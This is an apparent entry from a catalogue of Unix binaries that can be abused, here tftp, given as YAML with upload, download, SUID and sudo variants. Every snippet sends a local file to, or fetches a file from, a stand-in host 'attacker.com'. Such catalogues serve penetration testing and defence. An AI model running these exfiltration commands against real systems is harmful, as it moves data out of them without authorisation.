 ```yaml
---
name: tftp
functions:
  file-upload:
    - description: Send local file to a TFTP server.
      code: |
        RHOST=attacker.com
        tftp $RHOST
        put file_to_send
  file-download:
    - description: Fetch a remote file from a TFTP server.
      code: |
        RHOST=attacker.com
        tftp $RHOST
        get file_to_get
  suid:
    - description: Send local file to a TFTP server.
      code: |
        RHOST=attacker.com
        ./tftp $RHOST
        put file_to_send
  sudo:
    - description: Send local file to a TFTP server.
      code: |
        RHOST=attacker.com
        sudo -E tftp $RHOST
        put file_to_send
---
```

